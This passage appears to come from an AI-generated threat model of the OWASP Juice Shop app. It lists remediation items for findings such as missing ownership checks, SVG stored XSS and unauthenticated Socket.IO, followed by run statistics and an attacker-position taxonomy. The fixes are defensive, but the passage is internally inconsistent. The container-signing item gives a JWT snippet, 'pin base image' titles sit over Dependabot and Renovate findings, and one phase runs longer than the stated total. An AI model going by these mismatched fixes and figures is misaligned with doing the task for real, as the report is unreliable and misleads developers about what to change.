#### M-079 — Enforce object-level (ownership) authorization

**Addresses:**

- 🟠 [F-038](#f-038) — Missing Ownership Check Allows Horizontal Privilege Escalation in Review Update (`routes/updateProductReviews.ts:16`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/updateProductReviews.ts:16`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/updateProductReviews.ts:16`) and decide whether to keep, downgrade, or remove this finding.

1. Add `author: user?.data?.email` to the MarsDB query filter: `db.reviewsCollection.update({ _id: req.body.id, author: user?.data?.email }, ...)` so updates silently fail (0 modifications) when the caller does not own the review.
2. Return HTTP 403 when `result.modified === 0` and a review with that `_id` exists but the author doesn't match.
3. Remove `{ multi: true }` from the update options to enforce single-document semantics.

```javascript
const user = security.authenticatedUsers.from(req)
if (!user?.data?.email) return res.status(401).json({ error: 'Not authenticated' })
db.reviewsCollection.update(
  { _id: req.body.id, author: user.data.email },  // ownership enforced
  { $set: { message: req.body.message } }
  // multi: true removed
)
```

**Reference:** CWE-639

---

<a id="m-080"></a>
#### M-080 — Manual review: verify Stored XSS via SVG Profile Image Upload

**Addresses:**

- 🟠 [F-039](#f-039) — Stored XSS (`routes/profileImageUrlUpload.ts:28`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/profileImageUrlUpload.ts:28`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/profileImageUrlUpload.ts:28`) and decide whether to keep, downgrade, or remove this finding.

1. After `fetch(url)`, check `response.headers.get('content-type')` and reject anything not matching `image/(jpeg|png|gif|webp)` - never accept `image/svg+xml` for user-uploaded profile images.
2. Derive the stored file extension from the validated Content-Type header, not from the URL string.
3. Re-use the `file-type` `fromBuffer` check already present in `profileImageFileUpload.ts` - apply it after downloading the remote content.
4. Serve user-uploaded images with `Content-Disposition: attachment` or from a separate origin to prevent XSS even if a malicious file slips through.

```javascript
const response = await fetch(url, { redirect: 'error' })
const contentType = response.headers.get('content-type') ?? ''
const allowed = ['image/jpeg', 'image/png', 'image/gif', 'image/webp']
if (!allowed.some(t => contentType.startsWith(t))) {
  throw new Error(`Disallowed content type: ${contentType}`)
}
```

**Reference:** CWE-434

---

<a id="m-081"></a>
#### M-081 — Manual review: verify Unauthenticated Socket\.IO Connection from SPA

**Addresses:**

- 🟡 [F-040](#f-040) — Unauthenticated Socket\.IO Connection from SPA (`socket-io.service.ts:21`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `frontend/src/app/Services/socket-io.service.ts:21`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`frontend/src/app/Services/socket-io.service.ts:21`) and decide whether to keep, downgrade, or remove this finding.

1. Pass the JWT during Socket\.IO connection setup: `io(origin, { auth: { token: localStorage.getItem('token') }, path: ... })`.
2. On the server side, add `io.use((socket, next) => { verifyJwt(socket.handshake.auth.token, ...) })` to reject unauthenticated connections.
3. Only emit events that require authentication after the user has logged in; gate `verifyLocalXssChallenge` and similar challenge-verification events behind an authenticated connection.

```javascript
// socket-io.service.ts — add auth token to handshake
this._socket = io(window.location.origin, {
  auth: { token: localStorage.getItem('token') ?? '' },
  path: socketPath
})
```

**Reference:** CWE-306

---

<a id="m-082"></a>
#### M-082 — Return generic error messages to clients

**Addresses:**

- 🟡 [F-041](#f-041) — Raw Internal Error Messages Leaked to Caller (`routes/b2bOrder.ts:33`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `routes/b2bOrder.ts:33`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`routes/b2bOrder.ts:33`) and decide whether to keep, downgrade, or remove this finding.

1. Replace `next(err)` at line 33 with `res.status(400).json({ error: 'Invalid order data' })` - do not forward raw evaluator errors to the Express chain.
2. Log the sanitized error internally (with payload hash and user identity per b2b-api-004) but never include the raw error message or stack trace in the HTTP response body.
3. Add a global Express error handler in `server.ts` that strips stack traces from 500 responses in production (`process.env.NODE_ENV` === 'production').

**Reference:** CWE-209

---

<a id="m-083"></a>
#### M-083 — Sign and verify release artifacts

**Addresses:**

- 🟡 [F-042](#f-042) — Container images not signed no cosign or build-provenance attestation — :1

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/workflows/:1`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (.github/workflows/:1) and decide whether to keep, downgrade, or remove this finding.

```typescript
// Always verify on the public key; never trust the unsigned header.
const decoded = jwt.verify(token, publicKey, { algorithms: ['RS256'] })
```

**Verification:** Tamper one byte in a valid token's payload and confirm `jwt.verify()` throws.

---

<a id="m-084"></a>
#### M-084 — Disable untrusted package install scripts

**Addresses:**

- 🟡 [F-043](#f-043) — Npm install does not use --ignore-scripts — Dockerfile:5

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `Dockerfile:5`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (Dockerfile:5) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-085"></a>
#### M-085 — Disable untrusted package install scripts

**Addresses:**

- 🟡 [F-044](#f-044) — On postinstall hook present and not audited (`package.json:88`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `package.json:88`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`package.json:88`) and decide whether to keep, downgrade, or remove this finding.

---

<a id="m-086"></a>
#### M-086 — Pin the container base image to an immutable digest

**Addresses:**

- 🟡 [F-045](#f-045) — Dependabot npm ecosystem not configured (.github/dependabot.yml:1)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `.github/dependabot.yml:1`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (.`github/dependabot.yml:1`) and decide whether to keep, downgrade, or remove this finding.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

<a id="m-087"></a>
#### M-087 — Manual review: verify Data disclosure through cleartext transport

**Addresses:**

- 🟠 [F-048](#f-048) — Data disclosure (`challenges.yml:1381`)

**Priority:** P3 - Next Quarter · **Effort:** Medium · **File:** `data/static/challenges.yml:1381`

**How:** The evidence-verifier sample could not confirm or refute the claim from the cited snippet alone. Have a developer familiar with this code path read ±20 lines around the cited location (`data/static/challenges.yml:1381`) and decide whether to keep, downgrade, or remove this finding.

---

### P4 — Backlog

<a id="m-045"></a>
#### M-045 — Add a container healthcheck

**Addresses:**

- 🟢 [F-046](#f-046) — Missing HEALTHCHECK instruction — Dockerfile:1

**Priority:** P4 - Backlog · **Effort:** Medium · **File:** `Dockerfile:1`

**How:** Add HEALTHCHECK CMD `curl -f http://localhost:<port>/health`

---

<a id="m-046"></a>
#### M-046 — Pin the container base image to an immutable digest

**Addresses:**

- 🟢 [F-047](#f-047) — Renovate config absent automated dependency updates not file-detectable (`renovate.json:1`)

**Priority:** P4 - Backlog · **Effort:** Medium · **File:** `renovate.json:1`

**How:** Add `renovate.json` with a baseline preset (extends: ["config:base"]) OR confirm Renovate hosted-app is enabled at the repo / org level.

```bash
# Pin and audit dependencies; fail CI on known vulns.
npm audit --omit=dev --audit-level=high
# Upgrade unmaintained packages in package.json, then:
npm install && npm test
```

**Verification:** `npm audit --omit=dev --audit-level=high` exits 0.

---

## 11. Out of Scope

The following items are **explicitly excluded** from this threat model. Findings against these areas should be tracked separately.

- Third-party hosted dependencies and SaaS endpoints
- Browser runtime vulnerabilities and end-user device security
- Operating system kernel and container runtime
- Underlying network infrastructure (DNS, BGP, ISP)
- Physical security of hosting facilities

---

## Appendix: Run Statistics

| Field | Value |
|----------------------|----------------------|
| Invocation | `(not recorded)` |
| Generated | 2026-06-13 10:11 UTC |
| Mode | full |
| Assessment depth | thorough |
| Plugin version | 0.4.0-beta (analysis v2) |
| Orchestrator model | sonnet |
| Repository | `/home/mrohr/juice-shop` |
| Output directory | `/home/mrohr/juice-shop/docs/security` |
| Total analysis duration | 63m 28s |

### Per-Stage Breakdown

| Stage | Description | Agent | Model | Duration | Tool calls | Tokens |
|--------|------------------------------|----------------------|--------|--------|----------|--------|
| 1 | Threat Analysis & Triage | appsec-threat-analyst | sonnet | 56m 43s | 352 | 533,224 |
| 1 | Abuse Case Verification | appsec-abuse-case-verifier | sonnet | 1m 55s | 147 | 177,064 |
| 2 | Report Rendering | appsec-threat-renderer | sonnet | 2m 10s | 43 | 62,473 |
| 2 | Fragment Repair ([§7.3](#73-session-and-token-controls) diagram) | appsec-fragment-fixer | sonnet | 0m 55s | 11 | 30,866 |
| 3 | QA Review | `qa_checks.py` | none | - | 0 | 0 |
| 3 | Re-Render Loop (REPAIR_MODE) | appsec-fragment-fixer | sonnet | 1m 43s | 19 | 39,413 |
| **Total** | - | - | - | **63m 28s** | **572** | **843,040** |

### Per-Phase Duration Breakdown

| Phase | Description | Agent (Model) | Duration |
|---------|------------------------------------|----------------------|--------|
| Phase 1 | Context Resolution complete (parallel with<br/>Phase 2) | threat-analyst (sonnet-4-6) | 4m 29s |
| Phase 2 | Reconnaissance complete | recon-scanner (sonnet-4-6) | 4m 29s |
| Phase 2 | Reconnaissance complete - inline fallback<br/>summary written | recon-scanner (sonnet-4-6) | 6m 37s |
| Phase 3 | Architecture Modeling - 5 diagrams produced | threat-analyst (sonnet-4-6) | 2m 42s |
| Phase 4 | Attack Walkthroughs - 4 walkthroughs<br/>rendered | threat-analyst (sonnet-4-6) | 58s |
| Phase 5 | Asset Identification - 12 assets catalogued | threat-analyst (sonnet-4-6) | 2m 57s |
| Phase 6 | Attack Surface Mapping - 112 entry points<br/>(54 unauthenticated) | threat-analyst (sonnet-4-6) | 2m 57s |
| Phase 7 | Trust Boundary Analysis - 6 boundaries | threat-analyst (sonnet-4-6) | 2m 57s |
| Phase 8 | Security Controls Catalog - 34 controls (5<br/>Adequate, 4 Partial, 8 Weak, 14<br/>Missing/Unsafe) | threat-analyst (sonnet-4-6) | 6m 04s |
| Phase 9 | STRIDE dispatch-prep - 5 components,<br/>taxonomy slices + dispatch-context ready (2m<br/>10s) | Nx stride-analyzer (sonnet-4-6) | 2m 10s |
| Phase 9 | STRIDE Merge complete - 48 threats<br/>(Critical:10 High:30 Medium:6 Low:2)<br/>🔴 [F-001](#f-001) — JWT Algorithm Confusion — `lib/insecurity.ts:191`..🟠 [F-048](#f-048) — Data disclosure — `challenges.yml:1381` | Nx stride-analyzer (sonnet-4-6) | 3m 15s |
| Phase 10 | Scan Synthesis - 3 secrets (from recon), 0<br/>vulnerable deps (SCA) | threat-analyst (sonnet-4-6) | 18s |
| Phase 10b | Triage Validation complete - 0 flags | appsec-triage-validator (sonnet-4-6) | 3m 02s |
| Phase 11 | Substeps 1-3 complete<br/>(STAGE1_PHASE_LIMIT=10b) - yaml written<br/>(4326 lines), cache updated | threat-analyst (sonnet-4-6) | 1m 57s |
| Phase 11 | Management summary (ms role) - done | threat-analyst (sonnet-4-6) | 1m 51s |
| Phase 11 | Finalization (parallel renderer) | threat-analyst (sonnet-4-6) | 153m 56s |

---

<a id="appendix-a-vektor-taxonomy"></a>
## Appendix A — Vektor Taxonomy

This appendix defines the attacker-starting-position labels used in the Top Threats table and throughout [§8 Findings Register](#8-findings-register). Each label answers the question *what does the attacker need before the exploit begins?*

<a id="vektor-internet-anon"></a>
### Internet Anon

**Attacker position:** Unauthenticated attacker from the public internet · **Breach distance:** 1

**Preconditions:**

- Endpoint is reachable from the internet (no IP allowlist, no VPN)
- No authentication middleware blocks the request

**Typical CWEs:** [CWE-89](https://cwe.mitre.org/data/definitions/89.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-306](https://cwe.mitre.org/data/definitions/306.html) · [CWE-327](https://cwe.mitre.org/data/definitions/327.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html)

**Typical OWASP Top 10:** A01:2021, A03:2021, A07:2021

<a id="vektor-internet-user"></a>
### Internet User

**Attacker position:** Any authenticated low-privilege user (valid JWT / session) · **Breach distance:** 2

**Preconditions:**

- Attacker has signed up or otherwise obtained a valid user session
- Endpoint is behind auth but not behind role/admin checks

**Typical CWEs:** [CWE-434](https://cwe.mitre.org/data/definitions/434.html) · [CWE-611](https://cwe.mitre.org/data/definitions/611.html) · [CWE-918](https://cwe.mitre.org/data/definitions/918.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-287](https://cwe.mitre.org/data/definitions/287.html)

**Typical OWASP Top 10:** A01:2021, A04:2021, A05:2021, A10:2021

<a id="vektor-internet-priv-user"></a>
### Internet Priv User

**Attacker position:** Authenticated admin-level user (JWT with admin role or equivalent) · **Breach distance:** 2

**Preconditions:**

- Attacker holds admin credentials or has elevated privileges
- Endpoint gated on admin role but still exploitable once reached

**Typical CWEs:** [CWE-862](https://cwe.mitre.org/data/definitions/862.html) · [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-94](https://cwe.mitre.org/data/definitions/94.html)

**Typical OWASP Top 10:** A01:2021

<a id="vektor-victim-required"></a>
### Victim-Required

**Attacker position:** Attacker needs victim interaction - social engineering, crafted link, or live session · **Breach distance:** 2

**Preconditions:**

- Victim must click a link, load a page, or have an active session
- Applies to XSS, CSRF, click-jacking, open redirect

**Typical CWEs:** [CWE-79](https://cwe.mitre.org/data/definitions/79.html) · [CWE-352](https://cwe.mitre.org/data/definitions/352.html) · [CWE-601](https://cwe.mitre.org/data/definitions/601.html) · [CWE-1021](https://cwe.mitre.org/data/definitions/1021.html)

**Typical OWASP Top 10:** A01:2021, A03:2021

<a id="vektor-build-time"></a>
### Build-Time

**Attacker position:** Attacker controls a build input - CI runner, dependency, base image, or external data fetched during build · **Breach distance:** 3

**Preconditions:**

- Compromise of a dependency, registry, or base image
- OR compromise of a CI runner with write access to artifacts

**Typical CWEs:** [CWE-506](https://cwe.mitre.org/data/definitions/506.html) · [CWE-829](https://cwe.mitre.org/data/definitions/829.html) · [CWE-1039](https://cwe.mitre.org/data/definitions/1039.html) · [CWE-1104](https://cwe.mitre.org/data/definitions/1104.html)

**Typical OWASP Top 10:** A08:2021

<a id="vektor-repo-read"></a>
### Repo-Read

**Attacker position:** Attacker gains read access to source repository (leaked clone, forked fork, insider, compromised developer workstation) · **Breach distance:** 3

**Preconditions:**

- Read access to the source tree at or after commit time
- No runtime exploit needed - the vulnerability is the content of the repo

**Typical CWEs:** [CWE-798](https://cwe.mitre.org/data/definitions/798.html) · [CWE-312](https://cwe.mitre.org/data/definitions/312.html) · [CWE-540](https://cwe.mitre.org/data/definitions/540.html)

**Typical OWASP Top 10:** A02:2021, A07:2021

<a id="vektor-n-a"></a>
### n/a

**Attacker position:** Architectural / meta-finding - no runtime entry point, the finding describes a design defect aggregating multiple code-level findings

**Preconditions:**

- Finding is AF-NNN (architectural) rather than F-NNN (code-level)